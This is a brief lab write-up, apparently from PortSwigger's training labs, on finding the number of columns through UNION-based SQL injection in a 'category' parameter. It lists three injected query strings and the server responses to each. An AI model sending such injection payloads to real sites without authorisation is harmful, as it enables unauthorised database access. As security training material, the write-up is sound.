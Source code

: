 In this lab, the goal is to return the number of columns with a query.

The category parameter is deemed to be vulnerable to UNION based sql injection- so I selected a category intercepted the request with Burpsuite Pro.

I modified the category parameter according to the list provided by PortSwigger's notes. This will assist by returning a 200 OK when the correct number of columns is returned.

```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```



As we can see the: category=Gifts'+UNION+SELECT+null,null,null--  200 OK
Is the correct query chosen.
